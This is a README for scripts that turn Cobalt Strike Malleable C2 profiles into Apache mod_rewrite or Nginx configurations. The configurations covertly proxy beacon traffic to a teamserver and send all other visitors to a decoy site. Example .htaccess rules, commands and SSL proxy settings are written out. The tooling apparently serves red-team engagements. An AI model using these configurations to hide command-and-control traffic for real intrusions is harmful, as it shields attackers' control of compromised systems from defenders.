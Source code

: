 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection

This project converts a Cobalt Strike profile to a functional mod_rewrite .htaccess or Nginx config file to support HTTP proxy redirection to a CobaltStrike teamserver.

You should test and tune the output as needed before depolying, but these scripts should handle the heavy lifting.

## Updates and Features

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
 - Supports the Cobalt Strike custom URI features as of CS 3.10
 - HTTP or HTTPS proxying to the Cobalt Strike Team Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use the script with your redirector

## Apache mod_rewrite Example

    python cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE
    #### Save the following as .htaccess in the root web directory
    
    ########################################
    ## .htaccess START 
    RewriteEngine On

    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

    ## .htaccess END
    ########################################

## Nginx Example

    python ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local
    
    python ./cs2nginx.py -h
    usage: cs2nginx.py [-h] [-i INPUTFILE] [-c C2SERVER] [-r REDIRECT]
                    [-H HOSTNAME]

    Converts Cobalt Strike profiles to Nginx proxy_pass format by using URI
    endpoints to create regex matching rules. Make sure the profile passes a
    c2lint check before running this script.

    optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver_ip or
                    https://teamserver_domain)
    -r REDIRECT     Redirect bad requests to this URL (http://google.com)
    -H HOSTNAME     Hostname for Nginx redirector


----------------------------------------------
## Nginx Setup

apt-get install nginx nginx-extras
*Note:* `nginx-extras` is needed for custom server headers. If you can't get this package, then comment out the server header line in the resulting configuration file.
 
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy

    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

Note: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### SL support requires the following in the site config

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generate by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

### HTACCESS
If you plan on using mod_rewrite in .htaccess files, you also need to enable the use of .htaccess files by changing `AllowOverride None` to `AllowOverride All`. For the default website, edit /etc/apache2/sites-available/default

    <Directory /var/www/>
            Options Indexes FollowSymLinks MultiViews
            AllowOverride All
            Order allow,deny
            allow from all
    </Directory>

## References

[cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

[Resilient Red Team HTTPS Redirection Using Nginx - Adam Brown](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)
